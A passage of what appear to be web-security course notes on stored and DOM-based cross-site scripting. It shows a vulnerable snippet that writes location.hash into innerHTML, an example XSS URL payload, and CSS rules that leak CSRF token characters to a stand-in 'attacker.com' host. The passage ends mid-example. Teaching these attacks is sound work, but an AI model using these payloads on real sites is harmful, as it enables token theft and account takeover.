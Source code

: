     ![](./res/img/109.png)

  - Stored: the payload is permanently stored on the server-side, e.g., in the database of the web application

    ![](./res/img/115.png)

  - DOM-based: the payload is unsafely embedded into the web page (sink,  properties/functions that allow to modify the HTML of the web page or the execution of JavaScript code) on the browser-side
    - Example
      - Snippet that loads a stylesheet for a given template
        ```javascript
        const templateId = location.hash.match(/tplid=([^;&]*)/)[1];
        // ...
        document.head.innerHTML += `<link rel="stylesheet" href="./templates/${templateId}/style.css">`
        ```
      - This code introduces DOM XSS by linking the attacker-controlled source (`location.hash`) with the injection sink (`innerHTML`): `https://example.com#tplid="><imgsrc=xonerror=alert(1)>`
    - Not just scripts: CSS injections can be used to leak secret values (e.g., CSRF tokens) that are present inside the DOM of the page
      ```html
      <HTML>
        <STYLE>
          input[name=csrf][value^=a] ~ * {
            background-image: url(http://attacker.com/?v=a);
          }
          input[name=csrf][value^=b] ~ * {
            background-image: url(http://attacker.com/?v=b);
          }
          /* ... */